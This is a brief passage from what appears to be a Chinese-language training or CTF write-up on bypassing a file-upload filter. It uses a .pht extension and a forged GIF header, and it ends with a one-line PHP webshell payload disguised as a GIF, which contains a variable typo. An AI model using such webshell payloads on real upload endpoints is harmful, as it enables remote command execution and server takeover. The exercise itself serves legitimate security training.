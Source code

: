 ![](./imgs/20250122集训_pht.png)

证明绕过了其中一层防护，那给他改下文件头，GIF

![](./imgs/20250122集训_改gif.png)

可能还有一层防护？还得绕？

![](./imgs/20250122集训_hacker.png)

然后尝试去构造如下：

```php
GIF89A<?=`$GET[x]`?>
```
